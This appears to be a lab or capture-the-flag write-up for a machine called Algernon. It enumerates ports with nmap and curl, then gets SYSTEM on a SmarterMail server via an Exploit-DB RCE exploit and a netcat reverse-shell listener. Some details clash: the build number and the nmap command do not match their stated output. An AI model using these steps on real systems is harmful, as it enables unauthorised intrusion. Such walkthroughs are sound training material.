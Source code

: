 # Exploitation Guide for Algernon

## Summary

We will exploit this machine via a remote code execution vulnerability in build 6985 of the SmarterMail application.

## Enumeration

### Nmap

Let’s start with an `nmap` scan against all TCP ports:

```
kali@kali:~$ sudo nmap -p 9998 192.168.120.110
Nmap scan report for 192.168.120.110
Host is up (0.28s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
9998/tcp  open  distinct32
17001/tcp open  unknown
```

Port 9998 seems interesting. Let’s scan it more aggressively.

```
kali@kali:~$ sudo nmap -A -p 9998 192.168.120.110
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-12 06:00 EDT
Nmap scan report for 192.168.120.110
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
9998/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.48 seconds
```

This seems to be a Microsoft IIS application. Browsing to port 9998,  we discover that the application is SmarterMail version 6919:

```
kali@kali:~$ curl -L http://192.168.120.110:9998

<!DOCTYPE html>
...
var cssVersion = "100.0.6919.30414.8d65fc3f1d47d00";
var stProductVersion = "100.0.6919";
var stProductBuild = "6919 (Dec 11, 2018)";
...
```

## Exploitation

### RCE

Searching the Exploit Database, we discover a [remote code execution vulnerability](https://www.exploit-db.com/exploits/49216) for an older version of this software. Although the version numbers differ, we’ll attempt this exploit against this target.

We’ll download the exploit, update the `HOST` and `LHOST` variables as needed, and set `LPORT` to 17001.

Next, we’ll set up a netcat listener on port 17001 and launch the exploit.

```
kali@kali:~$ python3 49216.py
```

Our listener indicates that we have obtained a SYSTEM shell.

```
kali@kali:~$ nc -lvp 17001
listening on [any] 17001 ...
192.168.120.110: inverse host lookup failed: Unknown host
connect to [192.168.118.6] from (UNKNOWN) [192.168.120.110] 49852
whoami
nt authority\system
PS C:\Windows\system32>
```

## Escalation

Since we have SYSTEM privileges on the target, no further escalation is required.